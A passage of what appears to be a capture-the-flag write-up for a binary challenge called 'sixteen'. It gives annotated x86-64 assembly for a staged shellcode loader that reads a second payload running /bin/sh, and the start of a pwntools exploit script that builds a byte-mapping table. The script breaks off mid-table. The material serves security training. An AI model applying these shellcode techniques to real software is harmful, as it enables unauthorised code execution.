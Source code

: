 Due to writing constraints, we split it up into the following chunks. We need to ensure that the gap between any two chunks is a multiple of two, to ensure that the \x00 bytes pair up and act as a nop.
```

rcx + 0x30:  48 31 ff                xor    rdi,rdi ; set rdi to 0, to read from stdin
rcx + 0x33: 48 89 d6                 mov    rsi,rdx ; set rsi to the end of the original shellcode as a location to read in

rcx + 0x131:  48 c7 c2 00 10 00 00   mov    rdx,0x1000 ; a nice big buffer size

rcx + 0x142: 48 31 c0                xor    rax,rax ; sets rax = 0, this WILL make \x00\x00 bytes segfault rather than NOP
rcx + 0x145: 0f 05                   syscall 
```

When this shellcode loader runs, I can feed in a new shellcode of up to 0x1000 bytes that will be thrown into rdx, which points at the original end of the shellcode. This should then overwrite all our work with a new, beautiful shellcode that executes /bin/sh.

## Pulling it all together.

I wrote the following script to automatically build the shellcode. However, I also could have manually built it. As a whole, scripting is faster so I advise doing it where possible.

```python
from pwn import *



p = process("./sixteen", env={"LD_PRELOAD": "/home/bee/hackinghobby/cyberopen/libc.so.6"})
#p = remote("0.cloud.chals.io", 23261)

gdb.attach(p)

xors = dict()
xors[0x0] = b""
xors[0x03] = b"\x32\x43\x30"
xors[0x74] = b"\x32\x43\x31"
xors[0x1b] = b"\x32\x43\x32"
xors[0x31] = b"\x32\x43\x33"
xors[0xdb] = b"\x32\x43\x34"
xors[0x0f] = b"\x32\x43\x35"
xors[0x1f] = b"\x32\x43\x36"
xors[0x00] = b"\x32\x43\x37"
xors[0x4c] = b"\x32\x43\x38"
xors[0x89] = b"\x32\x43\x39"
xors[0x41] = b"\x32\x43\x41"
xors[0xff] = b"\x32\x43\x42"
xors[0x14] = b"\x32\x43\x43"
xors[0xdf] = b"\x32\x43\x44"
xors[0x48] = b"\x32\x43\x45"
xors[0x83] = b"\x32\x43\x46"
xors[0x30] = b"\x34\x30"
xors[0x31] = b"\x34\x31"
xors[0x32] = b"\x34\x32"
xors[0x33] = b"\x34\x33"
xors[0x34] = b"\x34\x34"
xors[0x35] = b"\x34\x35"
xors[0x36] = b"\x34\x36"
xors[0x37] = b"\x34\x37"
xors[0x38] = b"\x34\x38"
xors[0x39] = b"\x34\x39"
xors[0x41] = b"\x34\x41"
xors[0x42] = b"\x34\x42"
```